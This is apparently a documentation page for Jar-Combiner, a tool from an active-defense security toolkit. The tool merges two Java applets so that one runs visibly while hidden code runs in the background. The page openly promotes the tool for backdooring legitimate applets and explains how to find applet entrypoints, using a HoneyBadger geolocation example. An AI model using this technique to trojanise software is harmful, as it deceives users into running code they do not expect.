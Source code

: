 
Jar-Combiner
===========

Website
-------

<https://bitbucket.org/ethanr/jar-combiner>

Description
-----------

Jar-Combiner is a tool used to combine two seperate Java applets into one.  The resultant combined applet will run one of the former applets normally, while hiding the second one in the background.  
This is incredibly useful for backdooring legitimate Java applets.
A user running the new combined applet will see what they expect, while your code runs in the background.

Install Location
----------------

`/opt/jar-combiner/`

Usage
-----

`/opt/jar-combiner/Linux$` **`./joining.sh help`**

Video Walkthrough
-----------------

<video controls>
  <source src="Videos/1_550_Jar_Combiner.mp4">
  <source src="https://onedrive.live.com/download.aspx?cid=8D6C4317A39E3D29&resid=8D6C4317A39E3D29%2155669&canary=">
 <p>Your browser does not support html5 video.</p>
</video>

Example 1: Finding the Entrypoints
----------------------------------

In order to combine two applets, you must first know the entrypoints into both of those applets.  
The entrypoints are the classes that extend `JApplet` or `Applet`; they are where the code starts.  
Every applet has a different entrypoint.  

The easiest way to determine the entrypoints is by looking at html files made to launch the 
applets in question.  Take an html file or webpage that launches one of your Java applets and 
view its source.  In the source of the file you should be able to find the `applet` tag.  
Inside of this tag, find the parameter `code`.  The value to which the parameter `code` is set, 
is your entrypoint for that applet.

For example, the html that launches the HoneyBadger geolocation applet looks something like this:

    <applet code="honey.class" archive="honey.jar" width="0px" height="0px">
        <param name="target" value="target_name" />
        <param name="service" value="http://YOUR_ADHD_IP_ADDRESS/honeybadger/service.php"
    </applet>
